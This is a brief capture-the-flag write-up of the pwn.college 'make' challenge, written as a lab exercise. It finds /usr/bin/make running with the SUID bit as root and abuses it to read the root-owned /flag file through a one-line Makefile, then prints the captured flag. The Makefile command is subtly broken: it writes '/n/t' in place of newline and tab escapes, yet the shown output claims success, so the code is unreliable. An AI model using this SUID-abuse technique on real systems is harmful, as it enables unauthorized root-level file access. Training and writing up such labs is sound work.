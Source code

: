 # Challenge Name: make
**Category**: Program Misuse  
**Platform**: pwn.college  
**Difficulty**: Begineer
**Date**: 2025-07-15  
**Author**: Himanshu Parate

---

## 🧠 Summary:
The challenge abuses a SUID bit set on `/usr/bin/make`, allowing an unprivileged user to read the root-owned flag file at `/flag`.

---

## 🔍 Enumeration

```bash
ls -l /usr/bin/make
```

output:
```
-rwsr-xr-x 1 root root 47480 Sep  5  2019 /usr/bin/make
```

-The `s` in `-rws` indicates it's a SUID binary.
-`make` runs with **root privileges**.

## 🚀 Exploitation

The `make`  command in Linux is a build automation tool — it's mostly used to compile and build projects, especially those written in C, C++, or other compiled languages.

So we can easily use Makefile to cat /flag:

```bash
echo -e "all:/n/tcat /flag" > Makefile
make
```

Output:
```
cat /flag
pwn.college{sbiUEz2GPn-cyCe8SVy0ruAD8to.dhjNxwSM0IzMyEzW}
```

